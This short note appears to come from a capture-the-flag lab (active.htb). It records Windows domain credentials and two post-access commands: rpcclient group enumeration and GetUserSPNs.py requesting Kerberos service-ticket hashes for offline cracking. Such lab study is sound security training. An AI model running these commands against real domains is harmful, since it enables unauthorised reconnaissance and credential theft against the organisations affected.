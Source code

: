# After getting windows credentials

* Say
  * username : SVC\_TGS
  * password : GPPstillStandingStrong2k18
  * victim IP : 10.10.10.100
  * domain : active.htb
* Enumerate users
  * rpcclient -U "SVC\_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c "enumdomgroups"
  * GetUserSPNs.py active.htb/SVC\_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request -output tgs.hash


